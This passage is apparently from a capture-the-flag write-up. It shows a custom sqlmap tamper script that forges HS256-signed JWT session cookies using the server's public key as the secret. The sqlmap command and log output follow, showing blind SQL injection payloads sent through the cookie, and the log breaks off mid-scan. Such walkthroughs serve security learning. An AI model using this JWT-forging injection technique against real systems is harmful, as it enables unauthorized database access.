 ```python
sqlmaplog = logging.getLogger("sqlmapLog")
__priority__ = PRIORITY.NORMAL


def dependencies():
    pass


def tamper(payload, **kwargs):
    sqlmaplog.info(f"[jwt_tamper.py] Sign payload: {payload}")
    PUB_KEY = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"
    cookieval = jwt.encode({"username": payload, "pk": PUB_KEY, "iat": datetime.datetime.utcnow()},
                           PUB_KEY, algorithm="HS256").decode('UTF-8')
    sqlmaplog.debug(f"[jwt_tamper.py] jwt: {cookieval}")
    return cookieval
```

To start the cookie-based SQL injection attack, I executed sqlmap like below:

```bash
$ sqlmap -u "178.128.46.168:32678" --dbms "SQLite" --cookie "session=*" --tamper jwt_tamper.py 
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:28:28 /2021-01-06/

[14:28:28] [INFO] loading tamper module 'jwt_tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[14:28:31] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:28:31] [WARNING] provided value for parameter 'session' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:28:31] [INFO] testing connection to the target URL
[14:28:31] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[14:28:31] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[14:28:31] [INFO] testing if the target URL content is stable
[14:28:31] [INFO] target URL content is stable
[14:28:31] [INFO] testing if (custom) HEADER parameter 'Cookie #1*' is dynamic
[14:28:31] [INFO] [jwt_tamper.py] Sign payload: 5852
do you want to URL encode cookie values (implementation specific)? [Y/n] n
[14:28:33] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be dynamic
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: "..('(,.((
[14:28:33] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: 'AJIOoW<'">hpAJYr
[14:28:33] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[14:28:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ) AND 6105=2750 AND (7223=7223
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ) AND 3327=3327 AND (4322=4322
```